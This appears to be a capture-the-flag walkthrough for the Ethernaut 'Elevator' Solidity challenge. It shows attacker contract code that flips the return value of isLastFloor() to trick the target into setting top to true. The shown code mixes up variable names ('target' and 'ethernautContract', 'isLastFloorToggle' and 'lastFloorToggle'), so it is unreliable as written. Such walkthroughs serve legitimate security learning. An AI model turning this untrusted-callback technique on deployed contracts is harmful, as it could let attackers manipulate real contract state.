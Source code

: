| This elevator won't let you reach the top of your building. Right?

There are two key parts to this script centered around the concept of `interfaces` that will ultimately define our attack strategy, which I'll lay out shortly.

We have an interface:
```javascript
interface Building {
    function isLastFloor(uint) external returns (bool);
}
```
which is called in the `Elevator` contract:
```javascript
Building building = Building(msg.sender);
```
🤔 hmmm, `Elevator` never implemented the `isLastFloor()` function from the interface. Pretty sure this means we can define our own `isLastFloor()` to hack this thing.

So what do we need to make `isLastFloor()` do? Simple - we make `isLastFloor()` toggle its return to meet the following criteria:
```javascript
// we need to make this check evaluate false
if (! building.isLastFloor(_floor)) {
    floor = _floor;
    // and then make this evaluate true
    top = building.isLastFloor(floor);
}
```

## Solution
1. Head over to Remix, add the `Elevator` contract, then add our malicious contract which instantiates `Elevator` in its constructor:
```javascript
contract upOnly {
    Elevator public target;

    constructor(address _address) public {
        // _address is you ethernaut contract instance
        ethernautContract = Elevator(_address);
    }
}
```
2. Next, we implement our `isLastFloor()` function that will flip `isLastFloorToggle` when called. We also add a function to call the `Elevator`'s `goTo()` which triggers the hack.
```javascript
contract upOnly {
    // ...
    bool lastFloorToggle = true;

    function isLastFloor(uint) public returns(bool) {
        // flip the switch
        lastFloorToggle = !lastFloorToggle;
        return lastFloorToggle;
    }

    // trigger the hack
    function hack() public {
        ethernautContract.goTo(420);
    }
}
```
3. Deploy the `upOnly` contract with your contract instance, call your `hack()` function, then run `await contract.top()`. This should return true - we're done!